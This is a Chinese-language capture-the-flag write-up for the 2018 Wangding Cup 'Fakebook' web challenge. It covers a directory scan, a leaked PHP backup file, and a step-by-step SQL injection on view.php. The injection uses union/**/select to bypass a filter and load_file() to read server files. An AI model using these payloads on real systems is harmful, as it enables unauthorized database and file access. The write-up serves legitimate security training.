







# 网鼎杯 2018

## Web

### Fakebook

进入题目先查看源代码以及 Network 发现并没有什么可利用信息，尝试注册和登录发现也没有什么，于是尝试对题目进行一轮 dirsearch 扫描

```bash
$ python dirsearch.py -u http://f507614e-24b1-456e-8dba-b8f2cccb47f8.node4.buuoj.cn:81/
```

<figure><figcaption></figcaption></figure>

可以发现 `/robots.txt` 存在，访问可以得到 `/user.php.bak`

<figure><figcaption></figcaption></figure>

```php
<?php
​
​
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";
​
    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }
​
    function get($url)
    {
        $ch = curl_init();
​
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);
​
        return $output;
    }
​
    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }
​
    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
​
}
```

注册一个账户后点击用户名可以进入到 `/view.php` 内并且存在一个参数 `no` ，尝试进行 SQL 注入，构造 payload `no=1'` 可以发现弹出报错，因此可以继续进行 SQL 注入。

<figure><figcaption></figcaption></figure>

通过构造 1, 2, 3 可以发现 no 代表的是 用户 ID ，因此通过 `order by` 来判断表的字段数，构造 payload 直到 `no=1 order by 5#` 弹出报错说明字段数为 4 。

<figure><figcaption></figcaption></figure>

尝试构造 payload `no=1 union select 1,2,3,4#` 发现被过滤了，通过验证可以判断 union 和 select 同时出现时会触发过滤，尝试用 `/**/` 来代替空格发现过滤被消除了。通过构造 payload `no=-1 union/**/select 1,2,3,4#` 发现只有 2 能够回显，因此通过修改 2 进行注入攻击。

<figure><figcaption></figcaption></figure>

通过构造 payload `no=-1 union/**/select 1,database(),3,4#` 可以得知数据库名为 `fakebook` 。

<figure><figcaption></figcaption></figure>

通过构造 payload `no=-1 union/**/select 1,user(),3,4#` 可以得知用户名为 `root` ，这也说明拥有最高权限。

<figure><figcaption></figcaption></figure>

因为最开始目录扫描以及之后的报错已知 `/flag.php` 的绝对路径为 `/var/www/html/flag.php` 因此使用 `load_file()` 函数就可以直接读取 `/flag.php` 的内容了，所以构造 payload `no=-1 union/**/select 1,load_file('/var/www/html/flag.php'),3,4#` 就可以得到 flag 了。
